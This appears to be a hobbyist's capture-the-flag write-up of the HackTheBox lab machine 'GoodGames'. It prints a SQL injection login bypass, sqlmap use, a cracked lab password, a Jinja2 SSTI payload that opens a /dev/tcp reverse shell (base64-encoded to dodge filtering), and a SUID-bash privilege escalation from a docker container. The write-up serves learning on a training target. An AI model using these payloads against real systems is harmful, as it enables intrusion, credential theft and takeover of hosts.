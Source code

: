 # This is the Writeup of the HackTheBox machine "GoodGames"

Well hello there! I just finished another HackTheBox machine called "GoodGames" and I decided to make my own writeup to better understand everything that has happened during my pwning. I have learned a couple of new things that honestly I thought work differently, but without further ado, let's start B)

The challenge obviously starts with doing an nmap scan. For this, I really like to use this command : `nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.130` as `-sV` enables version detection, `-Pn` disables host discovery and treats all hosts as online, `-sC` enables script scanning using the default set of Nmap scripts, `-v` makes the output more verbose, `-p-` indicates that all ports will be scanned and `-oN scan` specifies the format and location for the output (that in this case is called "scan").

```Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```


**Don't forget to add goodgames.htb to your /etc/hosts !!!**

Well, the scan didn't show much, so we begin to poke around the main site. What is interesting (for hackers, obviously...) is the login form. We need to provide email and password to be logged into our account. At first, I spend some time poking around with JWT tokens - but it was not the correct way of thinking. I gave up on trying to bruteforce/guess admin's password, as for logging we were using email address, which I didn't know (at this point). After looking up other writeups, it turned out that I should have tried the infamous **SQL INJECTION**. Apparently, even though we had to provide email address in loging form, if we used typical SQL injection payload `email=admin' or 1=1 -- -` we still got logged in as admin (sick!). Now that's a surprise! If we were able to exploit the `email` field with our famous payload, we could test it using tool called `sqlmap`. All we had to do was to intercept our burp request during loging, save it as `request.txt` and then use command like `sqlmap -r request.txt`. This results in a dumped database with usernames and password hashes. Bingo! Now we just need to crack the admin's password and we are ready to go!

I used one of my favourite sites for cracking common passwords: https://crackstation.net. It turns out that our admin uses a really weak password: "superadministrator". This is pathetic... But now we are able to log into the admin's account and try to find a way to mess things up. 
In admin's panel, we can find info about another site called `internal-administration.goodgames.htb`.  
**Remember to add this address to your /etc/hosts !!!**  
After visiting this page, we are greeted by a big login form called "_Flask Volt_" (Flask is a python web application framework). I wonder... What if our admin was really lazy and used the same password couple of times?  
Bingo!  
We can log into the app!  

Here comes the tricky part. I want to be completely honest with you, I lost my patience and looked up what to do next on some another writeup. But hey, that's probably why you are here! That's nothing to be ashamed of, we all have been there. At the end of the day, by overcoming new obstacles, you're learning many valuable things. But anyway - back to the point :)

In the `settings` section, you are able to set you username, date of birth and phone number. And remember this one thing:
**IF YOU ARE PENTESTING A PYTHON ENVIRONMENT, THERE IS A BIG CHANCE OF _SSTI_ VULNERABILITY**.  
I'm not even a pentester, but that's how life works. If you see python - it will be either SSTI or some other deserialization. But now, when I am writing this writeup, it is easy to say I guess...
Well, back to the point. If you try a payload in a name field to be `{{7*7}}`, the generated name will be `49`. That's nice, we found vulnerability. Now you need to identify the Template Engine. There is a couple of ways to do this, but I really like this article: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
If you identify it correctly, you will know that we have just found the Jinja2 Template Engine! Now, let's craft a payload.
The most common payload looks like this: `{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/<ip>/<port> 0>&1').read()}}`, unfortunately, when I tried this, it didn't work. So, good way of thinking is to base64 encode our payload and use `${IFS}` as a `space` character. If we base64 encode our `bash -i >& /dev/tcp/<ip>/<port> 0>&1` part, our final payload would look like this: `{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<BASE64 ENCODED PART>${IFS}|base64${IFS}-d${IFS}|bash').read()}}`.

Pheeew, that was intense! Now let's setup a netcat listener using command `nc -lvnp 1337`, change name in the app to the previously given payload, and wait for magic to happen.  
Badaboom!  
We just landed our reverse shell!  

But what has happened?? Why are we root immediately?? Why is there no root.txt flag??? I'll explain! We are in a docker container. You can know this after seeing that after using `ls -la`, you see the user id's instead of user name's when listing files. Also, when you use `mount` command, you can see that there is "augustus" home directory mounted to this docker. Let's check the IPv4 of our container! Hmmmm... Why is it 172.19.0.2 instead of 172.19.0.1? Is there something running on the 172.19.0.1? There is only one way to find out! And maybe, just maybe our user is really, really lazy, and has used the same password third time!? But to do this, we need to be able to use `ssh`. Now we are not. Try this command: `script /dev/null bash`. It will start a new interactive Bash shell session, but all the input and output of the session will be discarded. Now, after `ssh augustus@172.19.0.1` and using the same password as before, we are able to log in as augustus.  

The last part of our journey is getting root access. Again, **WHEN YOU HAVE ACCESS TO A DOCKER CONTAINER WITH A MOUNTED FILESYSTEM OR ABILITY TO MOUNT, YOU WILL PROBABLY NEED TO CLONE A BINARY LIKE /BIN/BASH AND GIVE IT THE SUID BIT OR SOMETHING LIKE THIS**. So that's exactly what we will do! Let's go to the augustus home directory and copy the /bin/bash binary (`cp /bin/bash .`). Now let's use `logout` to go back to docker container. Look at this! There is our copied bash binary and we have root access and complete freedom in modyfing it's permissions! So nw, let's change the owner of this binary: `chown root:root bash`, then let's add SUID bit: `chmod s+u bash`. Now let's log again as augustus and if we did everything perfectly, you should be able to execute bash binary from augustus home directory with elevated privileges. If you execute `./bash -p`, you should become _root_.  

Thank you so much for reading this writeup. This means a lot to me and I hope you learned something new, as I certainly did :) If you have any suggestions please write to me and I'll try to make my writeups better and better. See you!


